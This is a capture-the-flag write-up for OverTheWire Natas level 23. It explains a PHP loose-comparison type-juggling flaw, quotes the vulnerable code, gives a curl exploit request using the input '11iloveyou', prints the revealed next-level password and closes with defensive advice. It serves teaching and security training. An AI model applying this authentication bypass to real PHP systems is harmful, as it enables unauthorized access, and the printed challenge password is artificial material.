

# Natas Level 23 → 24

**Vulnerability:** PHP Loose Comparison Type Juggling
**Difficulty:** Hard
**Tools Used:** Browser, Source Code Review, curl
**OWASP Category:** A04 Insecure Design
**Attack Class:** Type Confusion

---

### What the level gives you

The application prompts for a password. Source code is available and reveals a validation routine involving a string search and a numerical comparison.

The page appears to require a password containing a specific keyword while also satisfying a second condition.

---

### Vulnerability theory

PHP performs automatic type conversion during loose comparisons. When numeric operators are applied to strings, PHP attempts to interpret those strings as numbers.

This behavior can create unintended logic paths where user input satisfies conditions the developer never intended.

Type juggling vulnerabilities occur when security decisions rely on implicit conversions rather than strict validation. The resulting logic flaw allows attackers to bypass authentication or authorization checks by carefully crafting input values.

In this level, the password must contain a specific substring while also evaluating numerically greater than ten. PHP's automatic conversion behavior makes it possible for a string beginning with digits and containing the required text to satisfy both conditions simultaneously.

---

### Source code analysis

Relevant validation logic:

```php
if(array_key_exists("passwd", $_REQUEST)){

    if(strstr($_REQUEST["passwd"],"iloveyou")
       && ($_REQUEST["passwd"] > 10 )){

        echo "The credentials for the next level are:";
    }
}
```

Condition 1:

```php
strstr($_REQUEST["passwd"],"iloveyou")
```

Requires:

```text
iloveyou
```

to exist somewhere in the string.

Condition 2:

```php
$_REQUEST["passwd"] > 10
```

PHP converts the string to a numeric value.

Example:

```php
"11iloveyou" > 10
```

becomes:

```php
11 > 10
```

which evaluates to true.

Developer assumption:

```text
Password is a string.
```

PHP reality:

```text
String is converted to a number.
```

This mismatch creates the vulnerability.

---

### Approach

Reviewing the source code revealed two validation requirements. At first glance they appeared contradictory because one required a string while the other required a numeric comparison.

The critical observation was that PHP automatically converts strings into numbers when comparison operators are used. This meant the password could begin with digits while still containing the required text.

I tested several candidate values and determined that any string beginning with a number greater than ten and containing the substring `iloveyou` would satisfy both conditions simultaneously.

The payload succeeded immediately and disclosed the next-level credentials.

---

### Exploitation

```bash
curl -u natas23:CURRENT_PASSWORD \
"http://natas23.natas.labs.overthewire.org/?passwd=11iloveyou"
```

Explanation:

```text
11iloveyou
││
│└── Required substring
└── Numeric value > 10
```

Response:

```text
The credentials for the next level are:

Username: natas24
Password: MeuqmIJ8DDKuTr5pcvzFKSwlxedZYEWd
```

---

### Screenshot



---

### Real-world relevance

Type confusion and loose comparison vulnerabilities have historically caused authentication bypasses in PHP applications. They are commonly encountered in legacy codebases that rely on implicit conversions rather than strict validation.

Professional VAPT assessments regularly identify authorization flaws stemming from loose comparisons, weak token validation, and unsafe input handling. Many CVEs involving PHP authentication mechanisms ultimately trace back to improper type handling.

---

### Defender's perspective

Developers should avoid loose comparisons for security-sensitive logic. Input should be validated against expected types before any comparison is performed.

Using strict validation functions and explicit casting prevents ambiguous behavior. Static analysis tools, secure coding standards, and code review processes can identify type-juggling vulnerabilities before deployment. SOC teams can also alert on unusual parameter values designed to exploit type coercion.

---

### What I'd do differently

I would quickly verify PHP's conversion behavior locally using a small test script before attempting payload construction, reducing guesswork during assessment.